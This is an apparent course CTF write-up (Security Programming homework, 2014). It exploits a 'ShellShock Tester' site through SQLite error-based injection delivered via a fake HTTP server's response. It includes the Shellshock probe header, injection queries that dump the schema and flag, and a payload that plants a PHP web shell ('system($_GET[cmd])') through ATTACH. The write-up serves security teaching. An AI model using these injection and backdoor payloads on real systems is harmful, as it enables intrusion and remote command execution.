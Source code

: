 ====================
 ShellShock Writeup
====================

:date: 2014-12-16 15:35
:tags: secprog, sqlite, sqli, shellshock
:category: memo
:slug: shellshock-writeup
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: Security Programming Homework 4-1

Problem Description
===================

The `ShellShock Tester`_ is the website that have some vulnerabilites.
According to the text on the website, the vulnerabilities might not be
ShellShock :(

At the bottom of the website it says "The response will be collected into
database". Maybe SQL injection will work! After trying various types of SQL
injection in that text input field I realized that I'm in the wrong way...

Look Deeper
===========

The ShellShock Tester must send something to the target website to test if it
has bash vulnerability. Using `nc` to see what are sent from the ShellShock
Tester.

.. code-block:: bash

    $ nc -l -p 5566

And it turns out to be the following result:

.. code-block:: text

    GET / HTTP/1.1
    User-Agent: () { :;}; echo 'ShellShockTester_atdog';
    Host: 140.113.235.153:5566
    Accept: */*


Ah-ha! The string `{ :;}; echo 'ShellShockTester_atdog';` is a typical method to
test if the bash which is currently using is vulnerable to CVE-2014-6271. A
system which is vulnerable will echo the string "ShellShockTester_atdog".
Similarly, the target website which runs CGI program will return the string if
it is vulnerable. So why don't we build a fake HTTP server to fool the
ShellShock Tester?

Building a simple HTTP server using python module `Flask`_. It returns the
string when the ShellShock Tester queried for the index page. It seems that the 
ShellShock Tester stores the response returned from the target website into its 
database using `insert`. At the time the type of the database is still unknown.

So I append a single quote right after the string, and the result showed on the
ShellShock Tester is:

.. code-block:: text

    DATABASE Msg: unrecognized token: "'ShellShockTester_atdog'')"

    Response: ShellShockTester_atdog'

Google for the error message, it says that it seems to be SQLite 3. On the other
hand, all error messages will showed means that we can use error-based SQL
injection.

Error-based SQL Injection
=========================

Most of the error-based SQL injection methods are based on MySQL. But this time,
it is SQLite... Fortunately, I found a forum post which talks about SQLite
error-based injection, how lucky!

First, create a virtual table:

.. code-block:: sqlite3

    CREATE VIRTUAL TABLE v1 USING fts3(x);

To know which table and column contain the flag:

.. code-block:: sqlite3

    SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT sql FROM sqlite_master);

And finally, the flag showed up:

.. code-block:: sqlite3

    SELECT * FROM t1 WHERE t1 MATCH '"'||(SELECT flag FROM oyoyoyoy_____1111flag);

The queries listed above should be embedded into the sophisticatedly crafted
string. Using Python's format string will look like this:

.. code-block:: python

    trick = 'ShellShockTester_atdog\'); {} --'
    inj = 'create virtual table v1 using fts3(x);'
    resp = trick.format(inj)

Inject a Backdoor
=================

Another method to pwn the ShellShock Tester is to place a backdoor in the
directory of the website.

.. code-block:: python

    trick = 'ShellShockTester_atdog\'); {} --'
    inj = 'ATTACH \'./lol.php\' AS lol; CREATE TABLE lol.pwn (dataz TEXT); INSERT INTO lol.pwn (dataz) VALUES (\'<pre><?php system($_GET["cmd"]); ?></pre>\');'
    resp = trick.format(inj)

This will build a backdoor called `lol.php`. So anyone can visit that page along
with a "GET" argument `cmd`. The value of `cmd` could be any shell command. The
reason is that `ATTACH` command will attach a SQLite database. If the database
does not exist, it create the database which is a PHP file. The file's content
contains a short piece of PHP code showed above.

Simply visit the page "http://tor.atdog.tw:8888/lol.php?cmd=ls", it will list
every file in the current directory. And there is the SQLite database! Download
it and grab the flag!

Flag
====

The flag is:

.. code-block:: text

    SecProg{SQL1teInject1on_yoooo}

References
==========

- `Select Queries`__
- `SQLite 3 error-based injection`__
- `SQLite3 Injection Cheat Sheet`__

.. _ShellShock Tester: http://tor.atdog.tw:8888/index.php
.. _Flask: http://flask.pocoo.org
.. __: http://sqlite.awardspace.info/syntax/sqlitepg03.htm
.. __: https://rdot.org/forum/showthread.php?p=26419
.. __: http://atta.cked.me/home/sqlite3injectioncheatsheet

